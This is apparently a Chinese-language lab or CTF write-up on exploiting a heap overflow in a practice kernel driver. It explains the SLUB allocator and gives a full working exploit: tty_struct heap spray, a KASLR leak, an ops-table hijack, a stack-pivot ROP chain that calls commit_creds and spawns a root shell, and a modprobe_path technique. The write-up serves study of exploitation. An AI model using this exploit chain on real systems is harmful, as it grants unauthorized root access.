# 漏洞函数分析

根据源码可以看到相关驱动中有两个漏洞函数：

```c
static ssize_t module_read(struct file *file,
                           char __user *buf, size_t count,
                           loff_t *f_pos)
{
  printk(KERN_INFO "module_read called\n");

  if (copy_to_user(buf, g_buf, count)) {
    printk(KERN_INFO "copy_to_user failed\n");
    return -EINVAL;
  }

  return count;
}

static ssize_t module_write(struct file *file,
                            const char __user *buf, size_t count,
                            loff_t *f_pos)
{
  printk(KERN_INFO "module_write called\n");

  if (copy_from_user(g_buf, buf, count)) {
    printk(KERN_INFO "copy_from_user failed\n");
    return -EINVAL;
  }

  return count;
}
```

跟栈溢出中的一样，存在越界读和越界写的问题，但是这次使用了copy_to_user和copy_from_user安全版本，不带下划线的版本会进行安全检查，并且这次是直接对全局变量g_buf进行与用户态的交互，而不是想栈溢出中一样用在函数中定义的存放在栈上的变量进行操作，所以本次是在对堆进行利用。

本次的启动脚本开启了所有的安全防护：

```sh
qemu-system-x86_64 \
    -m 64M \
    -nographic \
    -kernel bzImage \
    -append "console=ttyS0 loglevel=3 oops=panic panic=-1 pti=on kaslr" \
    -no-reboot \
    -cpu qemu64,+smap,+smep \
    -smp 1 \
    -monitor /dev/null \
    -initrd rootfs.cpio \
    -net nic,model=virtio \
    -net user

```

然后可以写一个POC尝试输入越界：

```c
#include <fcntl.h>
#include <string.h>
#include <unistd.h>

int main() {
  int fd = open("/dev/holstein", O_RDWR);
  char buf[0x500];
  memset(buf, 'A', 0x500);
  write(fd, buf, 0x500);
  close(fd);
  return 0;
}

```

然后在目标内核中执行这个POC可以发现内核没有什么反应：



# kernel堆管理机制

与内核态相似，在kernel中，当你想要分配一些小于一个内存页大小的内存时，如果使用mmap这样的函数，那么就会浪费大量的内存空间，所以就会使用到与用户态中malloc相似的kmalloc函数来分配一些较小的内存空间。

这个kmalloc会用到内核中的名为内存分配器的机制。内存分配器有三种类型，但是这三种类型在实际实现上并不是完全独立的，被统称为slab分配器：

1. SLAB分配器比较古老，在Solaris 系统中被引入
2. SLUB分配器全名为*the unqueued slab allocator*，在2.6以后的被Linux内核作为默认的分配器，所以这一次主要考虑对于SLUB的利用
3. SLOB分配器全名为*simple list of blocks*，其目的是要尽可能做到轻量化，主要用于嵌入式设备

站在利用者的角度，主要关心内存分配的两件事：

1. 堆块从什么地方被切割分配出来
2. 被释放的堆块如何被回收和再次利用

## SLAB

SLAB有下面几个特点：

- 根据所需要的内存大小使用不同的页框，与libc的分配器不同。根据所需内存大小的不同分配来自不同位置的内存块，所以在分配的内存块前后没有长度信息
- 对于较小的内存会优先使用对应大小的缓存，对于较大的内存或没有缓存可以使用时进行正常的内存分配
- 对于空闲区域的管理使用一个位图来表示是否使用，在内存页的顶部维护了一个bit数组，用于表示该页是否已经释放了特定区域的内存，与libc中的malloc不同，它并未使用链表来管理释放的空闲块

总的来说，SLAB下每个页框中用索引进行空闲空间管理的可以简单的表示为：



0表示未被使用，1表示已被使用。

实际使用中，会有多个内存块被作为缓存，并且那些被释放回来的堆块会被优先分配使用。 `__kmem_cache_create`函数可以根据以下的一些标志位进行一些相关设置：

- `SLAB_POISON`: 被释放后的内存区域中将使用0xA5进行填充
- `SLAB_RED_ZONE`：每一个被使用的堆块后面将会被设置一个叫做red_zone的区域，这个区域会被用于检测是否出现了堆溢出等异常情况

## SLUB

对于比较大型的系统来说，SLUB是当前默认的内存分配器。它的设计理念遵循的原则是`越快越好` 

SLUB拥有以下这些特征：

- 根据所需要的大小使用不同的页框：这一点与SLAB相似（会使用kmalloc-64、kmalloc-128、kmalloc-256等等），但是与SLAB不同的地方在于SLUB不会在页框的开头维护SLAB中用于表示空闲区域和释放状态的位图的等数据结构，指向空闲区域列表的指针被存储于页框的descriptor。
- 被释放区域的管理使用单向链表：与libc中的tcache和fastbin机制类似，SLUB会在被释放的内存区域的开头设置一个指针指向前一个被释放的区域，最开始被释放的区域则指向NULL，与fastbin机制不同的是，SLUB中没有引入关于链表重写的安全检查。
- 使用缓存：与SLAB类似，SLUB对于每个CPU都维护了一些缓存，这些缓存使用单向链表维护的。

从网上其他博主处找到一张图来简单表示整个SLUB在数据结构上的组成：


主要有几个比较重要的数据结构：

### slab_caches:

这里的slab_caches中的slab并不是前面提到的SLAB机制，而是一个**术语**，表示一块按固定大小切分用于较小内存对象的内存区域，对于在SLUB机制中出现slab的问题，其实是一个命名的历史遗留问题。具体来说slab_caches是一个管理所有 kmem_cache的链表入口，在图中可以看到slab_caches下以双向链表的形式连接了所有的 kmem_cache。

### page：

是对一个内存页的管理结构，它是实际承载slab的页帧，本质上来说，指向一个slab数据结构就是指向一个page，具体来说page 中记录如下信息：

- `freelist`: 本页中空闲对象的链表；
- `inuse`: 已使用对象数；
- `objects`: 总对象数；
- `flags`, `frozen` 等表示状态。

### kmem_cache：

这是对于slab的主要管理结构，分配和释放操作都要经过这个数据结构，主要的字段如下：

`size` / `object_size`: 分配的块大小；

`cpu_slab`: 指向每 CPU 的局部缓存；

`cpu_partial`: 指向部分满的 slab；

`list`: 维护所有 slabs；

`allocflags`: 分配标志，比如 GFP_KERNEL；

`ctor`: 分配对象时调用的构造函数；

`node[MAX_NUMNODES]`: 对每个 NUMA 节点维护一个 `kmem_cache_node`。

其中最为重要的是cpu_slab和node

cpu_slab指向的是后面会说到的一个叫做kmem_cache_cpu 的数据结构，这是对于每个CPU分配的局部缓存，应该是为了加速CPU对内存的访问速度。

对于node这里引用一位大佬对它的描述：`node数组中包括其他CPU的Slab。为什么叫做node？其实这是NUMA系统中的node概念。NUMA是为了多核优化而产生的架构，可以令某个CPU访问某段内存的速度更快。node的定义是“一段内存，其中每个字节到CPU的距离相等”`

### kmem_cache_cpu：

kmem_cache_cpu中有以下主要字段：

`freelist`: 指向当前 slab 中的空闲对象；

`page`: 当前使用的 slab；

`partial`: 当前 CPU 的 partial slab 链；

其中freelist指向第一个空闲对象，page指向这第一个空闲对象所在的slab所属的那个页（如果有多个页则就是第一页）。

partial指向本CPU中对应的partial slab 链，**partial slab** 是指 **尚未被完全分配或完全释放的一块 slab 内存区域**。它介于“空闲 slab”（free）和“已满 slab”（full）之间。

### kmem_cache_node：

它与kmem_cache_cpu类似，也是一个slab的内存管理结构，主要使用的字段就只有两个，nr_partial和partial。

其中partial是Linux内核中可插拔式通用双链表结构，使用内核中双链表的接口进行操作。nr_partial表示partial双链表中的元素个数，即slab的个数。

与kmem_cache_cpu不同的是，它对于page的连接方式不是使用一个指针指向对应的结构体，而是使用了LRU机制对page进行管理。

### 内存分配管理

每个 CPU 拥有一组 **按大小分类的 kmem_cache 实例**（例如 kmalloc-32、kmalloc-64、kmalloc-128 等），每个 `kmem_cache` 都维护自己的一组 per-CPU 数据（也就是kmem_cache_cpu管理对象，如 freelist、当前 slab 页面等）。SLUB 会根据所需内存大小找到最合适的 `kmem_cache`，并在该 cache 的 freelist 中为当前 CPU 分配对象。

对于内存对象的分配，在除开某些特殊情况后（比如N页内存空间的分配由伙伴系统直接分配），一般流程如下：

1. kmem_cache_cpu->freelist中是否为空，如不为空则直接取出一块内存对象进行分配
2. 若kmem_cache_cpu->freelist为空，则检查kmem_cache_cpu->page->freelist是否为空，若不为空，则在kmem_cache_cpu->freelist中重建一个空闲链表（这一步被称为慢速路径），然后重新执行一次步骤1进行分配
3. 若kmem_cache_cpu->page->freelist为空，则检查kmem_cache->partial 是否为空，若不为空则从其中取出一个partial 的slab指定为当前kmem_cache_cpu->page，然后再次执行步骤2
4. 若当前的kmem_cache->partial 也为空，则会从kmem_cache_node->partial中进行分配，然后执行步骤3中的操作
5. 如果前面的全部为空，则通过伙伴系统分配新的slab，并挂到kmem_cache_cpu中

### 内存回收管理

为了方便描述，把几个对象分别对应为：

| 名称 | 意义                                                   |
| ---- | ------------------------------------------------------ |
| `p1` | 要释放的对象地址（`object`）                           |
| `p2` | `p1` 所在的页（`struct page`）                         |
| `p3` | `p1` 所在的 slab（实为 page 本身，page 代表一个 slab） |

回收时的处理路线大概可以分为以下几条

1. 如果p2与p3是对应的，即p2 == cpu_slab->page，那么p1会直接进入kmem_cache_cpu->freelist中
2. 如果p2与p3不对应，也就是p2是通过慢速路径从kmem_cache_cpu->partial或其他的kmem_cache_cpu中拿到的，那么在释放时会被加锁并加入p3对应的freelist之中。
3. 如果p3位于kmem_cache_node->partial链表中，释放分为两种情况：如果p1被释放后p3处于半满（partial）状态，则将p1挂入p3的freelist中。如果p1释放后p3处于全空状态，此时除了将p1链入p3的freelist以外，还需要判断node中slab数是否超过规定值(`node->nr_partial >= min_partial`)。如果超过则需要将p3移出node->partial链表，并将p3释放给伙伴系统。
4. 如果p3是一个全满（full）状态的slab，在释放p1后p3进入了半满（partial）状态，那么也有两种处理情况：如果当前kmem_cache_cpu->partial中的空闲对象超过了规定值(`partial.pobjects > cachep.cpu_partial`)，则将kmem_cache_cpu->partial中的所有slab解冻，这些slab最后那个处于partial状态的交给node处理，处于empty状态的则回收给伙伴系统；如果没有超过限制，那么就直接放入当前kmem_cache_cpu->partial中。

## SLOB

这个分配器主要用于嵌入式系统，暂时不展开细说

# 堆溢出的利用

由于所有的驱动程序共享的是同一个内核中的堆，所以一个驱动中的漏洞可以被用于使内核空间中的其它对象破坏。根据这个特性，一个利用思路就是在受漏洞影响的对象后面布置一些我们希望其被破坏（或者说是利用）的对象，然后利用堆溢出完成对这些对象的“破坏”。

为了完成利用所需要的内存布置，堆喷射（heap spray）技术是一个比较常见的手段，堆喷射可以被用来完成以下两种操作：

1. 如果内存对象是从freelist中被分配出来的，在这种情况下是很难保证我们想要覆写的内存区域是互相临近的，所以需要先用堆喷射来耗尽freelist中的对象，使内核分配来用于利用的内存对象在物理内存的视角下尽量“连贯”。
2. 当耗尽freelist中的所有对象后，内核分配下来的内存对象大概率是在物理内存上连续的，但是我不知道分配器会从被我控制的overflow_obj所在页的高地址或是低地址开始分配内存，但是由于我的溢出在物理内存的角度上只能是从低到高的，所以我就在overflow_obj被实际进行分配操作的之前和之后各进行一次内存分配来保证我的overflow_obj在物理内存的视角下向后一定会有一个被覆盖到的目标对象。（这其实就是所谓**堆风水**中的一种实现方式）

本次的漏洞驱动中的申请的堆块大小为0x400，那么在内核的视角下这块内存的分配就对应kmalloc-1024的区域进行分配。

在内核中有很多由其它驱动提供的内核对象，它们的大小一般都是对应的kmalloc-128, kmalloc-1024等大小，所以这些内核对象就可以被用做后面的堆溢出利用。对于这些结构的使用需要积累（了解足够多可以用于利用的内核对象）。

本次使用到的内核对象是tty_strcut（其大小通常在0x2c0左右），它在include/linux/tty.h中被定义。

这个结构体的几个比较重要的成员如下：

```c
struct tty_struct {
	int	magic;
	struct kref kref;
	struct device *dev;	/* class device or NULL (e.g. ptys, serdev) */
	struct tty_driver *driver;
	const struct tty_operations *ops;
    // ...
} __randomize_layout;
```

其中tty_operations *ops是一个定义了TTY中各种操作的对应函数的函数表。

可以通过下面这种方式创建一个PTY（伪终端）对：

```c
int ptmx = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
```

这样就可以创建的伪终端就会对应创建一个tty_struct

当我们对于这个设备进行read，write等操作的时候就会调用前面说到的tty_operations *ops中对应的函数。

## POC

首先构建一个简单的POC结合GDB来看下堆溢出和堆喷后内存的布局：

```c
#include <fcntl.h>
#include <string.h>
#include <unistd.h>

int main() {
  int spray[100];
  for (int i = 0; i < 50; i++) {
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
  }

  int fd = open("/dev/holstein", O_RDWR);
  for (int i = 50; i < 100; i++) {
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
  }
  char buf[0x500];
  memset(buf, 'A', 0x500);
  write(fd, buf, 0x500);
  close(fd);
}
```

POC比较简单，就是按照之前讲的思路在目标驱动holstein前后各喷射了50个tty_struct。这样大概率会出现的内存布局即是在这个fd对应的内存位置上会出现前后都是tty_strcut的情况。

首先关闭所有防护并以root进入系统，看下这个漏洞驱动的module_write函数的具体位置：



注意在本次的实验环境中应该是开启了kptr_restrict来防止直接查看内核符号，可以在root在/proc/sys/kernel中权限下执行：

```sh
 echo 0 > ./kptr_restric
```

来临时解除这个机制。

使用GDB看下实际情况，将断点设置在module_write函数上，在函数实际完成向g_buf中写入数据的操作之前观察一下g_buf前后的内存布局：

这是在调用copy_from_user之前的状态：



这是当前寄存器的设置：



可以看出g_buf的地址是：`0xffff888003126000`

看一下这个变量向后衍生的内存布局（这里我重新调试了一下，之前展示的位置上g_buf中已经写入了一些数据，看起来不太正常）



可以看到在g_buf的后续0x400的位置上存在一些结构上看起来十分类似的结构体，这些就是通过堆喷射布置到内存空间中的tty_struct结构体。然后看一下POC完成溢出后这些结构体内的情况：



可以看到确实出现了覆盖的情况。下面介绍如何绕过各种防护措施完成提权。

主要的思路应该是通过溢出劫持tty_struct结构体中`const struct tty_operations *ops`指针，这个指针指向的是TTY对应各种操作的函数表，劫持这个函数表到一个由我们通过溢出布置好的内存区域，在内存区域中布置好可用于提权的函数地址，借此完成提权操作。

## KASLR

根据对漏洞驱动源码的分析，可以看到这个驱动中不仅仅只有一个越界写入，还有一个越界读取。那么我们就可以通过这个越界读取来泄露tty_strcut中const struct tty_operations *ops的具体地址，从而找到内核的基址。

tips：每种 tty 设备驱动注册时，都会指定一个不同的 `tty_operations` 表，这张表处于内核空间之中，从前面的图可以看到这个表在不开启KASLR的情况下位于0xffffffff81c38880这个位置上，我们知道，在不开启KASLR时，内核的加载基址是0xffffffff81000000，那么可以算出这个tty_operations表在内核空间中的偏移是：

```
ops_offset = 0xffffffff81c38880 - 0xffffffff81000000 = 0xc38880
```

在通过越界读取泄露出tty_strcut中const struct tty_operations *ops的具体值后，通过这个值减去ops_offset之后就可以得到本次内核的加载基址。在exp中的具体实验为：

```c
void leak_kernel_base() {
  char buf[0x500];
  read(global_fd, buf, 0x500);
  kernel_base = *(uint64_t *)&buf[0x418] - OPS_OFFSET;
  printf("[+] kernel base: 0x%lx\n", kernel_base);
}
```

## SMAP

绕过SMAP我们需要再内核空间中控制RIP，注意这里这个const struct tty_operations *ops是一个指向函数表的指针，所以需要再这个指针指向的位置布置好一张构造好的虚假函数表来控制RIP。

`tips：如果SMAP没有开启的话可以把函数表布置到用户空间里`

与用户态下的利用类似，我们要向堆中写入数据就需要知道堆的具体地址，所以现在我们需要泄露堆的地址。

首先观察一下g_buf后面tty_strcut的具体内容：


可以看到0xffff88800310e438处的指针：0xffff88800310e438

这个值前去0x438就可以得到g_buf的地址。得到g_buf的地址后，就可以考虑将tty_operations *ops指向g_buf，并在g_buf中布置一张函数表，exp中的实现为：


```c
void hajicak_control_flow() {
  char buf[0x500];
  uint64_t *p = (uint64_t *)&buf;
  for (int i = 0; i < 0x40; i++) // 随便填入几个函数地址进行验证
    *p++ = 0xffffffffdead0000 + (i << 8);
  *(uint64_t *)&buf[0x418] = g_buf; // 劫持tty_struct的函数表为g_buf
  write(global_fd, buf, 0x420);
  for (int i = 0; i < SPRAY_NUM; i++) { //因为不知道我们覆盖到的是哪一个tty_strcut，所以对每一个都尝试ioctl
    ioctl(spray[i], 0xdeadbeef, 0xcafebabe); // 触发劫持
  }
}
```

`tips：ioctl函数是用于触发该 tty_struct 中 const struct tty_operations *ops 指向的函数表中的特定函数，特别是该结构体中的 .ioctl 函数指针所指向的驱动程序实现的处理函数。`

然后在程序中运行一下这个验证用的exp，可以看到：



虽然内核崩溃了，但是看到崩溃的地址是我们修改后劫持的那个地址，如果我们关闭SMAP保护，就可以尝试利用ret2usr的思路来完成提权

**但是，当SMAP开启的时候，即是我们通过硬编码写入某些提权函数的地址，在调用这些函数时也会出错，这个报错大概率是一个内核栈空间耗尽的错误。这是由于虽然我们可以劫持RIP到用户空间，但此时我们仍然处于内核的上下文中，在内核上下文中，每个线程都会被分配一个固定大小（如8KB）的 内核栈，这个栈在后续调用提权函数时就很容易因为空间不足而崩溃掉**

为了解决这个问题，下面会介绍一种叫做stack pivot的手法。

## SMEP

前面说到，当我们尝试在内核空间中使用ret2usr时会由于内核栈空间不足而发生报错，那么我们是否可以通过某种手段扩大这个栈空间呢？

这就是前面提到的stack pivot手法。栈空间的大小是由ESP和EBP两个寄存器决定的，那么在控制RIP后，可以通过ROP的手法为ESP赋一个较大的值来完成栈空间的扩大。

**在没有SMEP机制的情况下**可以通过mmap映射一块较大的用户空间内存，然后将栈空间劫持到这块区域上就行。利用ropr，可以找到这样一些gadget：

```sh
➜  ropr --nouniq -R "^mov esp, 0x[0-9]*; ret" ./vmlinux
0xffffffff8132b8ad: mov esp, 0x39000001; ret 0x4e7f;
0xffffffff8136c683: mov esp, 0x81000000; ret 0x1389;
0xffffffff814f7b30: mov esp, 0x89480002; ret;
0xffffffff81516264: mov esp, 0x39000000; ret;
0xffffffff8151657f: mov esp, 0x39000000; ret;
0xffffffff8154380f: mov esp, 0x39000000; ret;
0xffffffff815a9798: mov esp, 0x39000000; ret;
```

那么我们就可以使用mmap在内存空间中映射一块对应0x39000000的内存，然后在这段内存上布置kROP即可完成提权

将但是由于SMEP机制的存在，直接在用户空间中布置ROP链是不可执行的，所以我们要换种方法来利用。既然将ROP链布置在用户空间的内存上是不行的，那么就只有考虑将ROP布置在一个可以执行的位置上，在这个实验中，我们能控制写入的唯一一个可执行位置就是这个g_buf这段内核上的内存。

我们可以观察一下前面测试劫持时发生的crash时的寄存器情况：

```
RDX: 00000000cafebabe RSI: 00000000deadbeef RDI: ffff9a4bc1d0e400
```

可以发现在crash的时候，RDX和RSI中已经写入了我们在ioctl函数中填入的两个填充值，那么这里是否可以利用一下呢。

应该是可以的，可以通过这个寄存器来完成栈迁移，那么就需要寻找到一个gadget，来完成对rsp的赋值。

按照一般的思路来说，这个gadget应该完成一个mov rsp, rdx/rsi的操作,但是这样的gadget找不到，那就只有换一种方法，完成一个push rdx/rsi, pop rsp这样的操作。

那么根据这个思路可以找到：

```shell
➜  ropr --nouniq -R "^push rdx;.* pop rsp;.* ret" ./vmlinux
0xffffffff811077fc: push rdx; add [rbx+0x41], bl; pop rsp; pop r13; pop rbp; ret;
0xffffffff81107826: push rdx; add [rbx+0x41], bl; pop rsp; pop r13; pop rbp; ret;
0xffffffff811099b8: push rdx; add [rbx+0x41], bl; pop rsp; pop r13; pop rbp; ret;
0xffffffff811cd945: push rdx; push 0x584a8348; adc [rbx+0x41], bl; pop rsp; pop rbp; ret;
0xffffffff813a478a: push rdx; mov ebp, 0x415bffd9; pop rsp; pop r13; pop rbp; ret;
0xffffffff814decce: push rdx; add [rbx+0x41], bl; pop rsp; pop r13; pop rbp; ret;
```

这里面的这个gadget就可以利用：

```
0xffffffff813a478a: push rdx; mov ebp, 0x415bffd9; pop rsp; pop r13; pop rbp; ret;
```

在这个gadget中，可以看到除了pop rsp操作外还有两个多余的pop操作，每次pop操作会使rsp+0x8，那么在开始向RDX中传入RSP时就要注意将RSP+0x10。

其他的操作就与栈溢出时没什么区别：

```c
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>

#define OPS_OFFSET 0xc38880
#define SPRAY_NUM 100
#define VULN_DRV "/dev/holstein"

uint64_t kernel_base = 0;
uint64_t base = 0xffffffff81000000;
uint64_t g_buf = 0;
int global_fd = 0;

void spawn_shell();

// uint64_t stack_pivot = 0xffffffff81516264; //no SMEP
uint64_t stack_pivot = 0xffffffff813a478a;

uint64_t user_cs, user_ss, user_rflags, user_sp;
uint64_t prepare_kernel_cred = 0xffffffff81074650;
uint64_t commit_creds = 0xffffffff810744b0;
uint64_t pop_rdi_ret = 0xffffffff8128b79c;
uint64_t mov_rdi_rax_ret = 0xffffffff8162707b;
uint64_t pop_rcx_ret = 0xffffffff814d52dc;
uint64_t swapgs_restore_regs_and_return_to_usermode = 0xffffffff81800e10;
uint64_t user_rip = (uint64_t)spawn_shell;

void spawn_shell() {
  puts("[+] returned to user land");
  uid_t uid = getuid();
  if (uid == 0) {
    printf("[+] got root (uid = %d)\n", uid);
  } else {
    printf("[!] failed to get root (uid: %d)\n", uid);
    exit(-1);
  }
  puts("[*] spawning shell");
  char *argv[] = {"/bin/sh", NULL};
  char *envp[] = {NULL};
  execve("/bin/sh", argv, envp);
  puts("[+] win!");
  exit(0);
}

void save_userland_state() {
  puts("[*] saving user land state");
  __asm__(".intel_syntax noprefix;"
          "mov user_cs, cs;"
          "mov user_ss, ss;"
          "mov user_sp, rsp;"
          "pushf;"
          "pop user_rflags;"
          ".att_syntax");
}

int main() {
  save_userland_state();

  int spray[SPRAY_NUM];
  for (int i = 0; i < SPRAY_NUM / 2; i++) {
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (spray[i] == -1)
      perror("open");
  }

  global_fd = open("/dev/holstein", O_RDWR);
  if (global_fd == -1)
    perror("open");

  for (int i = SPRAY_NUM / 2; i < SPRAY_NUM; i++) {
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (spray[i] == -1)
      perror("open");
  }

  char buf[0x500];
  read(global_fd, buf, 0x500);
  kernel_base = *(uint64_t *)&buf[0x418] - OPS_OFFSET;
  printf("[+] kernel base: 0x%lx\n", kernel_base);
  g_buf = *(uint64_t *)&buf[0x438] - 0x438;
  printf("[+] heap base: 0x%lx\n", g_buf);

  uint64_t *rop_chain = (uint64_t *)&buf;
  // for (int i = 0; i < 0x40; i++)   // 随便填入几个函数地址进行验证
  //   //*p++ = 0xffffffffdead0000 + i;  // 0xffffffffdead0c00
  *rop_chain++ = pop_rdi_ret - base + kernel_base;         // 0
  *rop_chain++ = 0;                                        // 1
  *rop_chain++ = prepare_kernel_cred - base + kernel_base; // 2
  *rop_chain++ = pop_rcx_ret - base + kernel_base;         // 3
  *rop_chain++ = 0;                                        // 4
  *rop_chain++ = mov_rdi_rax_ret - base + kernel_base;     // 5
  *rop_chain++ = commit_creds - base + kernel_base;        // 6
  *rop_chain++ =
      pop_rcx_ret - base +
      kernel_base; // 7 这里的pop
                   // rcx没有什么实际意义，只是作为一个“滑坡”指令把劫持rsp的那个指令滑掉
  *rop_chain++ = 0;                                // 8
  *rop_chain++ = pop_rcx_ret - base + kernel_base; // 9
  *rop_chain++ = 0;                                // a
  *rop_chain++ = pop_rcx_ret - base + kernel_base; // b
  *rop_chain++ = stack_pivot - base + kernel_base; // c
  *rop_chain++ =
      swapgs_restore_regs_and_return_to_usermode - base + kernel_base + 22;
  *rop_chain++ = 0;
  *rop_chain++ = 0;
  *rop_chain++ = user_rip;
  *rop_chain++ = user_cs;
  *rop_chain++ = user_rflags;
  *rop_chain++ = user_sp;
  *rop_chain++ = user_ss;
  *(uint64_t *)&buf[0x418] = g_buf; // 劫持tty_struct的函数表为g_buf
  write(global_fd, buf, 0x420);
  for (int i = 0; i < SPRAY_NUM; i++) {
    ioctl(spray[i], g_buf - 0x10, g_buf - 0x10); // 触发劫持,完成stack pivot
  }

  close(global_fd);

  for (int i = 0; i < SPRAY_NUM; i++) {
    close(spray[i]);
  }

  return 0;
}
```

虽然思路上已经理的比较清晰了，但是在编写这个exp的时候，还是遇到了很多奇奇怪怪的小问题：

首先最开始我是将堆喷射操作，泄露地址操作封装成了两个函数，然后再主函数中调用我封装的函数，但是这样操作遇到了一些问题：**就是泄露操作有时候泄露出来的地址是错误的，并且无法通过后面for循环里面的ioctl触发劫持。**
这个问题我查了下发现了一种可能是正确的说法：是由于**“堆风水失败”导致的利用失败问题**，根本原因在于把喷射逻辑（`open("/dev/ptmx")`）单独封装到一个函数中后，由于**函数调用过程本身对栈和堆的布局产生了影响**，导致了 **堆对象分配的位置和顺序与原来不一致**，最终失去了对目标对象（如 `tty_struct`）的精准覆盖控制。

## Other methods

前面提到的这种stack pivot手法将内核栈迁移到可以控制的内核内存区域上，但是这个手法非常依赖于一个条件良好的gadget和一块较大的我们可以控制的内存区域，这种gadget和内存块并不是在任何情况下都有，所以下面会介绍几种其他的手法。

### AAR/AAW

这里先介绍一下AAR(任意地址读)和AAW(任意地址写)原语，其实这个概念与ROP中完成的操作其实有一部分重叠，在某些情况下，ROP操作可以完成AAR或者AAW的具体功能。这个所谓的原语我认为实际上就是在利用内核中一些已有的原子性的读写操作。

之前提到过，在ioctl的过程中可以看到我们作为参数传递给这个函数的一些值保存进了寄存器：



可以看到RCX, RDX, RSI, R08, R12, R14这几个寄存器中传入了我们在用户态下传入的数据，那么我们就可以通过这几个寄存器配合一些常见的，非常好找到的gadget来完成一些固定长度的AAR或AAW，例如：

在函数表中布置这个gadget可以完成2字节(一个int)的任意写：

```
0xffffffff811b7db9: mov [rdx], rcx; ret;
```

为什么是四字节的任意写呢，这个是因为在观察寄存器中存入的值的不同可以看出每个寄存器中存入的是ioctl的那一个参数：

```
static int ioctl(struct tty_struct *tty,
		 unsigned int cmd, unsigned long arg)
```

在ioctl的函数定义中，第三个参数是一个unsigned long，可以用于地址，第二个参数是一个int，用作数据写入，所以是四字节的任意写。

那么同理，也可以完成最多4字节的任意地址读，利用这个gadget：

```
0xffffffff8118a285: mov eax, [rdx]; ret;
```

为什么还是四字节呢，这是因为ioctl函数的返回值是int类型，4字节。

下面介绍几种利用AAW来完成提权的方法。

### Usermode helper

在Linux中，内核有时候也会需要从用户空间中调用程序，此时就会利用到call_usermodehelper这个函数。在用户空间下有两个典型的可以在用户态下以无特权的形式触发，分别是：modprobe_path 和 core_pattern。

modprobe_path是一个内核中的字符串，它的触发方式是：**执行一个格式非法的可执行文件**（例如，一个只有几个字节的任意二进制文件，无法识别为 ELF/shebang 等）。当系统无法识别这个文件的格式时，会试图加载支持这种格式的模块，于是就触发了 `__request_module` → `call_usermodehelper(modprobe_path)`。如果我提前劫持这个modprobe_path 为一个可以用于提权的恶意程序，那么就可以诱导系统以内核权限执行这个提权程序。

